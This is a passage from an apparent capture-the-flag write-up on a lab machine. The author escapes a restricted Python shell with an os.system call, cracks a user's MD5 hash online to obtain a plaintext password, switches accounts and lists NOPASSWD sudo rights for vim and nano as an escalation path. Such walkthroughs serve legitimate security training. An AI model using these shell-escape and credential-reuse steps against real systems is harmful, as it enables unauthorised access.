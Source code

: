 There we go we were able to get a shell, but it is quite limited since we can only use the above commands. We can try to escape out of this shell. Since the lshell is python based we could try to escape by calling the os library.

```bash
intern:~$ echo os.system("/bin/bash")
intern@development:~$ whoami
intern
intern@development:~$
```

There we go, we now have access to any command.

```bash
intern@development:~$ cat local.txt 
Congratulations on obtaining a user shell. :)
intern@development:~$ cat work.txt 
1.      Tell Patrick that shoutbox is not working. We need to revert to the old method to update David about shoutbox. For new, we will use the old director's landing page.

2.      Patrick's start of the third year in this company!

3.      Attend the meeting to discuss if password policy should be relooked at.
```

There isn’t much on the user’s directory so let’s perform some enumeration elsewhere. After spending some time enumerating using intern I was not able to find anything. So I decided to take a step back and review all the information I had gathered till now. I tried to look at the hashes obtained earlier and tried to see if any other website could find a match for the patrick and admin hashes. I was able to find this using md5online.org.

```bash
patrick:P@ssw0rd25
```

Let's go ahead and login.

```bash
intern@development:/tmp$ su patrick
Password: 
patrick@development:/tmp$ cd ~
patrick@development:~$ ls
access.txt  password.txt
patrick@development:~$
```

It seems we were able to switch to patrick’s account.

```bash
patrick@development:~$ sudo -l
Matching Defaults entries for patrick on development:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User patrick may run the following commands on development:
    (ALL) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /bin/nano
```
